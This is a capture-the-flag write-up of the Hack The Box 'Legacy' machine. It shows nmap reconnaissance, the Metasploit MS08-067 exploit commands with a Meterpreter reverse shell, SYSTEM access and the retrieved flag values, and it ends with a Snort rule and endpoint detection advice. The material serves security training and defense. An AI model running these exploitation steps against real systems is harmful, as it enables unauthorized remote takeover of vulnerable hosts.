

# Hack The Box (HTB) Legacy Machine Writeup | [54nK4lP3x3]

**Hack the Box machine walkthrough of [HTB Legacy](https://app.hackthebox.com/machines/Legacy?tab=play_machine) by: [`54nK4lP3x3`](https://app.hackthebox.com/profile/1630957)**

## 1. Executive Summary

"Legacy" is not just a machine name; it is a warning. It represents the "Zombie Infrastructure" found in many enterprise environments—outdated, unpatched Windows XP systems kept alive for a single legacy application. This operation demonstrates how a single unpatched vulnerability (MS08-067) in the Server Service allows an attacker to bypass all authentication and instantly seize total control (SYSTEM) of the host.

**The Kill Chain:**

1. **Recon:** Identification of a Windows XP host exposing SMB (Port 445) and RPC (Port 135).
2. **Vulnerability Analysis:** Nmap scripting engine confirms the target is vulnerable to **MS08-067** (NetAPI).
3. **Exploitation:** Execution of a buffer overflow attack against the Server Service to achieve immediate Remote Code Execution (RCE).
4. **Objective:** Instant elevation to `NT AUTHORITY\SYSTEM` due to the architectural lack of isolation in legacy Windows versions.

---

## 2. The Attack Graph

*A visual representation of the exploit path.*



---

## 3. Reconnaissance: The Time Capsule

We start with our standard identifying scan.

```bash
export TARGET=10.129.227.181
sudo nmap -sC -sV -oA nmap_legacy $TARGET
```


**The Filter:**
The scan reveals ports **135**, **139** and **445** (SMB). The banner grabbing identifies the OS as **Windows XP**.

- *Observation:* Windows XP has been End-of-Life (EOL) since 2014. Seeing this in a scan is an immediate critical finding.

**The Tactician's Pivot:**
We don't just guess exploits. We verify. We use Nmap's Scripting Engine (NSE) to ask the specific question: *"Is this SMB service vulnerable?"*

```bash
nmap --script smb-vuln* -p 445 $TARGET
```


*Output Confirmation:*

`smb-vuln-ms08-067: VULNERABLE`

`smb-vuln-ms17-010: VULNERABLE` 

**Strategic Decision: The Crash Risk**
We have two "Critical" vulnerabilities. Why choose MS08-067?

- **MS17-010 (EternalBlue)** **is notorious for crashing Windows XP kernels (Blue Screen of Death BSOD) if the grooming fails.**
- **MS08-067** **is more stable on XP SP3.**
- *Syntropy Doctrine:* **Availability matters.** Even in a CTF, we practice as if this were a client's production server. We choose the exploit least likely to crash the box.

---

## 4. Exploitation: The Surgical Strike

**Vulnerability:** MS08-067 (CVE-2008-4250)
**Vector:** A buffer overflow in the `NetPathCanonicalize` function of the Server Service.

**The Mechanism:**
MS08-067 (CVE-2008-4250) is a parsing error in the `NetPathCanonicalize` function inside `netapi32.dll`. By sending a specially crafted RPC request with an overly long path string, we can overwrite the return address on the stack.

While manual python scripts exist, they often struggle with shellcode encoding on specific XP Service Pack versions. For this operation, we use the industry-standard Metasploit module for its precise target mapping

The inbuilt module `use exploit/windows/smb/ms08_067_netapi` is selected first followed by configuring the target values and then running the exploit to get a Meterpreter shell as SYSTEM

```bash
msfconsole -q
msf6 > use exploit/windows/smb/ms08_067_netapi
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.16.12
LHOST => 10.10.16.12
msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.129.227.181
RHOSTS => 10.129.227.181
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.16.12:4444
[*] 10.129.227.181:445 - Automatically detecting the target...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.16/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.16.12:4444 -> 10.129.227.181:1033) at 2026-01-20 05:51:41 -0500

meterpreter >
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 1568 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\john\Desktop\user.txt"
e69af0e4f443de7e36876fda4ec7644f

C:\WINDOWS\system32>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
993442d258b0e0ec917cae9e695d5713
```


---

## 5. Privilege Escalation: The Singularity

We check our identity.

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


**The Mental Model: "The Singularity"**
On modern Windows (10/11), getting a shell usually lands you as a low-level user. You then have to fight for Administrator/System.
On legacy Windows (XP/2000), exploits in core services (like SMB) execute directly inside the kernel or system process memory. There is no "Privilege Escalation" phase. **The breach is the victory.**

We have total control.


---

## 6. Syntropy Retrospective

### The Mental Model: "Protocol Decay"

Security is not static. A protocol that was secure in 2005 (SMBv1) is a critical vulnerability today. "Legacy" teaches us that **Protocol Decay** is real. If you do not actively deprecate old protocols (disabling SMBv1), your firewall is irrelevant because the language the servers speak is inherently broken.

### 🛡️ Syntropy Detection Engineering

*How to catch this actor in your logs:*

1. **Network Intrusion Detection (NIDS):**
    - **Signature:** MS08-067 relies on malformed path parsing in SMB packets.
    - **Snort Rule:**
        
        ```bash
        alert tcp $EXTERNAL_NET any -> $HOME_NET 445 (msg:"Syntropy-Detection: MS08-067 Exploit Attempt"; flow:to_server,established; content:"|00|"; depth:1; content:"|FF|SMB"; within:4; distance:3; content:"|00 23|"; within:2; distance:36; sid:1000002; rev:1;)
        ```
        
2. **Endpoint Logic:**
    - **Process Creation:** Alert on `cmd.exe` or `powershell.exe` spawning directly from `svchost.exe` (The Server Service host process). This is a high-fidelity indicator of service-level exploitation.

---

**Prepared by Operator:** `54nK4lP3x3` | Syntropy Security — *For defenders who think like attackers.*
